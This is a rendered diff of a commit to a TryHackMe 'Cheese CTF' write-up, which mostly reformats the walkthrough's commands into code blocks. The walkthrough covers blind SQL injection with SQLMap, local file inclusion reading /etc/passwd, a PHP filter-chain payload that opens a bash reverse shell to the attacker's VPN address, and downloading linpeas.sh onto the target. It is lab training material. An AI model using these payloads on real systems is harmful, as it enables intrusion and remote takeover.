

Before and after one commit to abubakar-shahid/TryHackMe-CTFs-Writeups, a Markdown page: Easy/Cheese CTF/CheeseCTF.md, the part around the change printed below. Shown: that part at 92% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Easy/Cheese CTF/CheeseCTF.md
+++ b/Easy/Cheese CTF/CheeseCTF.md
@@ -19,11 +22,47 @@ Command Breakdown:
 
 The detailed analysis on running this command is as follows:
 SQLMap tested the username parameter and detected that it is vulnerable to time-based blind SQL injection. The backend database management system (DBMS) was identified as MySQL (MariaDB fork). The current database was retrieved (users). SQLMap found one table named users in the users database. Columns in the users table were identified as `id`, `username`, `password`. The single entry in the users table was retrieved as `ID: 1, Username: comte, Password Hash: 5b0c2e1b4fe1410e47f26feff7f4fc4c`. SQLMap recognized the password hash as MD5. It used its default dictionary for a dictionary-based attack but failed to crack the hash.
-Moreover, it also gave a 302 redirect to `http://<IP_ADDRESS>/secret-script.php?file=supersecretadminpanel.html`. The link suggests that it is loading a file from a directory without any check which might result in LFI. So lets test it with the url `http://<IP_ADDRESS>/secret-script.php?file=/etc/passwd`. This showed some content on the webpage. It means that we can exploit it through LFI. In the content that we got from `/etc/passwd`, there is something `comte:x:1000:1000:comte:/home/comte:/bin/bash`, which seggests that this account has a shell (/bin/bash) and may be your entry point to gain local access.
+Moreover, it also gave a 302 redirect to
+```
+http://<IP_ADDRESS>/secret-script.php?file=supersecretadminpanel.html
+```
+The link suggests that it is loading a file from a directory without any check which might result in LFI. So lets test it with the url
+```
+http://<IP_ADDRESS>/secret-script.php?file=/etc/passwd
+```
+This showed some content on the webpage. It means that we can exploit it through LFI. In the content that we got from `/etc/passwd`, there is something `comte:x:1000:1000:comte:/home/comte:/bin/bash`, which seggests that this account has a shell (/bin/bash) and may be your entry point to gain local access.
 
-Now our next task is to upload a reverse shell on the server using the LFI. I tried uploading the shell by running a local server on my machine with a local port, but it did not worked. It means that there are some filters that are preventing me to upload any php shell. To bypass this, we have to use a script that generates different filter chains for the different payloads. I downloaded a script from github `https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py` that generates multiple chains while uploading the shell code. Make sure that you are running your port on netcat `nc -lvnp YOUR_PORT`. Now run the command `python3 php-reverse-shell.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_VPN_IP>/<YOUR_PORT> 0>&1'\"); ?>" | grep "^php" > payload.txt`. It will generate a lot of useful payloads. Now run the command `curl "http://<IP_ADDRESS>/secret-script.php?file=$(cat payload.txt)"`. This will give you a reverse shell in the directory `/var/www/html` on the terminal where you are running the netcat.
+Now our next task is to upload a reverse shell on the server using the LFI. I tried uploading the shell by running a local server on my machine with a local port, but it did not worked. It means that there are some filters that are preventing me to upload any php shell. To bypass this, we have to use a script that generates different filter chains for the different payloads. I downloaded a script from github
+```
+https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py
+```
+This generates multiple chains while uploading the shell code. Make sure that you are running your port on netcat `nc -lvnp YOUR_PORT`. Now run the command
+```
+python3 php-reverse-shell.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_VPN_IP>/<YOUR_PORT> 0>&1'\"); ?>" | grep "^php" > payload.txt
+```
+It will generate a lot of useful payloads. Now run the command
+```
+curl "http://<IP_ADDRESS>/secret-script.php?file=$(cat payload.txt)"
+```
+This will give you a reverse shell in the directory `/var/www/html` on the terminal where you are running the netcat.
 
-1. To get the user's flag, we have to search in his directory `/home/comte` that we also discovered previously. We have a `user.txt` in `/home/comte` but it says permission denied if we try to read it using cat command. So we need previlage escaltion now. For this, download `linpeas.sh` using the command `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`. Now run a python server `python3 -m http.server 8000 --bind <YOUR_VPN_IP>`. Now run `wget http://<YOUR_VPN_IP>:8000/linpeas.sh` in the target machine, but before running this, move to `cd /tmp` so that we are able to write in the target machine and also make sure that linpeas.sh is in the same directory where you are running the python server so that it gets copied to the target machine. Once the linpeas.sh is downloaded in the target machine, run `chmod +x linpeas.sh` to grant permissions to the file. Now execute it `./linpeas.sh`. The execution of this gave a long response, but it is very important for us to analyze its response. Deeply go through the response and you will observe some lines:
+1. To get the user's flag, we have to search in his directory `/home/comte` that we also discovered previously. We have a `user.txt` in `/home/comte` but it says permission denied if we try to read it using cat command. So we need previlage escaltion now. For this, download `linpeas.sh` using the command
+```
+wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
+```
+Now run a python server
+```
+python3 -m http.server 8000 --bind <YOUR_VPN_IP>
+```
+Now run
+```
+wget http://<YOUR_VPN_IP>:8000/linpeas.sh
+```
+in the target machine, but before running this, move to `cd /tmp` so that we are able to write in the target machine and also make sure that linpeas.sh is in the same directory where you are running the python server so that it gets copied to the target machine. Once the linpeas.sh is downloaded in the target machine, run
+```
+chmod +x linpeas.sh
+```
+to grant permissions to the file. Now execute it `./linpeas.sh`. The execution of this gave a long response, but it is very important for us to analyze its response. Deeply go through the response and you will observe some lines:
 ```
 ╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
 ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
````
Also changed, not shown: other parts of Easy/Cheese CTF/CheeseCTF.md (+37 -4 lines).
